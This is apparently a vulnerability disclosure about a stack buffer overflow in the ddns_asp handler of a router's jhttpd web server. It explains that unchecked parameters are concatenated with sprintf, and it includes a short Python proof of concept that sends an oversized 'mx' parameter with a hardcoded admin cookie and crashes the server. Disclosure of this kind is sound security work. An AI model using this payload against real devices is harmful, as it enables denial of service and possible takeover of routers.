





In the ddns_asp function of jhttpd, several parameters are obtained

 

 

If opt=add, then the following arguments will be concatenated to the stack variable via the sprintf function

 

Because the parameter length is not verified, the stack overflow vulnerability will be caused by the long parameter during splicing

Or use FirmAE to simulate directly, connect to the shell, and run jhttpd in it

 

and then send the payload

import requests
url="http://192.168.0.1/ddns.asp?opt=add&mx="+'0'*0x1000
headers={"cookie":"wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
response=requests.get(url=url,headers=headers)
print(response.text)

A segfault was found in jhttpd, which proves that the vulnerability exists

 
